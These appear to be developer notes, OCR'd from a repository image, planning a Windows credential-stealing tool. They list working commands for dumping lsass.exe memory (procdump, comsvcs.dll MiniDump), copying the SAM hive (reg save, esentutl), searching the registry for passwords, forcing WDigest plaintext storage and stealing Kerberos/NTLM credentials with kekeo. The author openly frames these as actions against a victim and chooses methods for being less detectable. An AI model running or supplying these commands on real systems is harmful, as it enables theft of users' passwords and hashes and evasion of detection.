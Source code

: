 - `Start-Transcript -Path C:\transcript.txt` is the command to log the details of all the console commands and scripts. This gives us way too many data about the user's activity.We can use the `posh.cs` file for this that is slightly more undetectable.

{To Implement}
- Create the dump of lsass.exe that will be created in `C:\Users\Admin\APPDATA\Local\Temp\lsass.DMP` and read it using dump file tools or like `Windbg` similar tools.
    -  `procdump.exe -accepteula -ma lsass.exe lsass.dmp` is the command only for the systems having the procdump tool that dumps the lsass process.
    - `.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full` executed inside the `System32` directory.

{To Implement}
- MiniDumpWriteDump function API used to dump the lsass.exe process. PssCaptureSnapshot  is also similar to this API function. It gets us the snapshot of the lsass.exe process that gets us the handle and thus we pass it to the MiniDumpWriteDump API function.

{To Implement}
- `reg save hklm\sam sam` if this command works then it will dump the sam registry key.

{To Implement}
- `esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam` command requires privileges but will dump the SAM process details into `C:\temp\sam` directory. It can be detected by `CreateFile` and `ReadFile` operations on the SAM process.

{To Implement}(in batch command prompt)
- `reg query HKLM /f password /t REG_SZ /s` command gives us the utilities inside the whole system having the word `password` in it.

- `reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"` command gives us the pssword filter. We have to implement this using a Password Filtering DLL.

{To be Implemented}(We will need the working of mimikaatz for this)
- In Windows 8 lower versions WDigest used to store the password in plaintext but in the newer versions we have to force the registry key to store the passwords next time the person logs in or spawn any shell.

{To be Implemented}
- Credential delegation inside the Windows is there to serve and secure the credentials of the user from the target server but when it is on we can dump the credenetials without accessing the lsass.exe process:
    - kerberos credential stealing: We need to be in the privileged command prompt and run `kekeo.exe` tool inside the victim's system.Then we have to connect to the victim's system using this tool and steal the creds.
    - NTLM creds can be stolen more easily as it can be done on the same machine where the keko instances are running with low privilege.
    - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation` to check if the credential delegation is turned on.
